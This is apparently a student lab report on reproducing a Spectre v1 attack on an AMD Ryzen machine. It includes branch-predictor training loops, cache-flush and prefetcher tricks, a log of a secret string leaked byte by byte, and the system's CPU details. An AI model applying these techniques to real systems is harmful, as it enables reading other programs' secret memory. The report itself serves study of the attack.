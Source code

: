 # Spectre Attack Report

## Branch predictor training
Global and local branch predictor trainers were run one after another and repeated 16 times.
### Global branch predictor
To trained the global branch predictor I run following function:
```c
for (volatile int i = 0; i < 99; i++){
    for (volatile int j = 0; j < 198; j++){
        for (volatile int k = 0; k < 57; k++){
        }
    }
}
```
Running single loop did not provided needed results, moreover running 2 loops was still not enough. Nor was running 3 loops with all having number of iterations divisible by 4.
Only after I switched the number of iterations each to be different number modulo 4 the attack started to work.

### Local branch predictor
To trained the local branch predictor I run following function:
```c
for (int j = 0; j < 16; j++) {
    victim_function(j);
}
```
The loop runs `victim_function` for each valid argument.


## Side channel extension
To extend the time available I flushed cache line containing array1_size so that it has to be fetched from DRAM.

## Attack accuracy improvements
1. Attack has been run 1000 times to improve accuracy. 
2. Branch predictor training has been run 16 times.

The difference between best and second best results is for most of the letter over ten fold so I was happy tith the result.

## Additional problems
I had to use `shuffle_map.h` to prevent prefetcher from kicking in.

## Appendix
### Logs from successful attempt
```
Putting 'The Magic Words are Squeamish Ossifrage.' in memory, address 0x6042f55cf420
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffffe3c0... Success: 0x54='T' score=179 (second best: 0x4A='J' score=2)
Reading at malicious_x = 0xffffffffffffe3c1... Success: 0x68='h' score=90 (second best: 0x4A='J' score=6)
Reading at malicious_x = 0xffffffffffffe3c2... Success: 0x65='e' score=91 
Reading at malicious_x = 0xffffffffffffe3c3... Success: 0x20=' ' score=91 
Reading at malicious_x = 0xffffffffffffe3c4... Success: 0x4D='M' score=4 
Reading at malicious_x = 0xffffffffffffe3c5... Success: 0x61='a' score=6 
Reading at malicious_x = 0xffffffffffffe3c6... Success: 0x67='g' score=17 (second best: 0x4A='J' score=1)
Reading at malicious_x = 0xffffffffffffe3c7... Success: 0x69='i' score=65 (second best: 0x23='#' score=1)
Reading at malicious_x = 0xffffffffffffe3c8... Success: 0x63='c' score=108 
Reading at malicious_x = 0xffffffffffffe3c9... Success: 0x20=' ' score=43 (second best: 0x00='?' score=1)
Reading at malicious_x = 0xffffffffffffe3ca... Success: 0x57='W' score=68 (second best: 0x95='?' score=8)
Reading at malicious_x = 0xffffffffffffe3cb... Success: 0x6F='o' score=151 (second best: 0x4A='J' score=1)
Reading at malicious_x = 0xffffffffffffe3cc... Success: 0x72='r' score=9 (second best: 0x23='#' score=1)
Reading at malicious_x = 0xffffffffffffe3cd... Success: 0x64='d' score=27 (second best: 0x4A='J' score=1)
Reading at malicious_x = 0xffffffffffffe3ce... Success: 0x73='s' score=19 (second best: 0x55='U' score=9)
Reading at malicious_x = 0xffffffffffffe3cf... Success: 0x20=' ' score=18 (second best: 0x4A='J' score=1)
Reading at malicious_x = 0xffffffffffffe3d0... Success: 0x61='a' score=21 (second best: 0x4A='J' score=1)
Reading at malicious_x = 0xffffffffffffe3d1... Success: 0x72='r' score=17 (second best: 0x23='#' score=1)
Reading at malicious_x = 0xffffffffffffe3d2... Success: 0x65='e' score=21 
Reading at malicious_x = 0xffffffffffffe3d3... Success: 0x20=' ' score=54 (second best: 0x4A='J' score=6)
Reading at malicious_x = 0xffffffffffffe3d4... Success: 0x53='S' score=34 
Reading at malicious_x = 0xffffffffffffe3d5... Success: 0x71='q' score=30 (second best: 0x4A='J' score=2)
Reading at malicious_x = 0xffffffffffffe3d6... Success: 0x75='u' score=32 (second best: 0x4A='J' score=1)
Reading at malicious_x = 0xffffffffffffe3d7... Success: 0x65='e' score=21 
Reading at malicious_x = 0xffffffffffffe3d8... Success: 0x61='a' score=10 
Reading at malicious_x = 0xffffffffffffe3d9... Success: 0x6D='m' score=33 
Reading at malicious_x = 0xffffffffffffe3da... Success: 0x69='i' score=21 (second best: 0x55='U' score=4)
Reading at malicious_x = 0xffffffffffffe3db... Success: 0x73='s' score=6 
Reading at malicious_x = 0xffffffffffffe3dc... Success: 0x68='h' score=9 
Reading at malicious_x = 0xffffffffffffe3dd... Success: 0x20=' ' score=53 (second best: 0x12='?' score=1)
Reading at malicious_x = 0xffffffffffffe3de... Success: 0x4F='O' score=25 (second best: 0x23='#' score=1)
Reading at malicious_x = 0xffffffffffffe3df... Success: 0x73='s' score=50 (second best: 0x12='?' score=1)
Reading at malicious_x = 0xffffffffffffe3e0... Success: 0x73='s' score=23 
Reading at malicious_x = 0xffffffffffffe3e1... Success: 0x69='i' score=7 (second best: 0x4A='J' score=1)
Reading at malicious_x = 0xffffffffffffe3e2... Success: 0x66='f' score=11 (second best: 0x4A='J' score=2)
Reading at malicious_x = 0xffffffffffffe3e3... Success: 0x72='r' score=11 
Reading at malicious_x = 0xffffffffffffe3e4... Success: 0x61='a' score=10 (second best: 0x23='#' score=1)
Reading at malicious_x = 0xffffffffffffe3e5... Success: 0x67='g' score=9 (second best: 0x23='#' score=2)
Reading at malicious_x = 0xffffffffffffe3e6... Success: 0x65='e' score=12 (second best: 0x23='#' score=1)
Reading at malicious_x = 0xffffffffffffe3e7... Success: 0x2E='.' score=13 
```

### System
#### Operating system
Garuda Linux distribution with Linux 6.9.3 kernel
#### lscpu
```
Architecture:             x86_64
CPU op-mode(s):         32-bit, 64-bit
Address sizes:          48 bits physical, 48 bits virtual
Byte Order:             Little Endian
CPU(s):                   16
On-line CPU(s) list:    0-15
Vendor ID:                AuthenticAMD
Model name:             AMD Ryzen 7 5700U with Radeon Graphics
CPU family:           23
Model:                104
Thread(s) per core:   2
Core(s) per socket:   8
Socket(s):            1
Stepping:             1
CPU(s) scaling MHz:   25%
CPU max MHz:          4372,0000
CPU min MHz:          400,0000
BogoMIPS:             3594,00
Flags:                fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx
fxsr sse sse2 ht syscall nx mmxext fxsr_opt pdpe1gb rdtscp lm constant_tsc rep_good
nopl xtopology nonstop_tsc cpuid extd_apicid aperfmperf rapl pni pclmulqdq monitor s
sse3 fma cx16 sse4_1 sse4_2 movbe popcnt aes xsave avx f16c rdrand lahf_lm cmp_legac
y svm extapic cr8_legacy abm sse4a misalignsse 3dnowprefetch osvw ibs skinit wdt tce
topoext perfctr_core perfctr_nb bpext perfctr_llc mwaitx cpb cat_l3 cdp_l3 hw_pstat
e ssbd mba ibrs ibpb stibp vmmcall fsgsbase bmi1 avx2 smep bmi2 cqm rdt_a rdseed adx
smap clflushopt clwb sha_ni xsaveopt xsavec xgetbv1 cqm_llc cqm_occup_llc cqm_mbm_t
otal cqm_mbm_local clzero irperf xsaveerptr rdpru wbnoinvd cppc arat npt lbrv svm_lo
ck nrip_save tsc_scale vmcb_clean flushbyasid decodeassists pausefilter pfthreshold
avic v_vmsave_vmload vgif v_spec_ctrl umip rdpid overflow_recov succor smca
Virtualization features:
Virtualization:         AMD-V
Caches (sum of all):
L1d:                    256 KiB (8 instances)
L1i:                    256 KiB (8 instances)
L2:                     4 MiB (8 instances)
L3:                     8 MiB (2 instances)
NUMA:
NUMA node(s):           1
NUMA node0 CPU(s):      0-15
Vulnerabilities:
Gather data sampling:   Not affected
Itlb multihit:          Not affected
L1tf:                   Not affected
Mds:                    Not affected
Meltdown:               Not affected
Mmio stale data:        Not affected
Reg file data sampling: Not affected
Retbleed:               Mitigation; untrained return thunk; SMT enabled with STIBP protection
Spec rstack overflow:   Mitigation; Safe RET
Spec store bypass:      Mitigation; Speculative Store Bypass disabled via prctl
Spectre v1:             Mitigation; usercopy/swapgs barriers and __user pointer sanitization
Spectre v2:             Mitigation; Retpolines; IBPB conditional; STIBP always-on; RSB filling; PBRSB-eIBRS
Not affected; BHI Not affected
Srbds:                  Not affected
Tsx async abort:        Not affected
```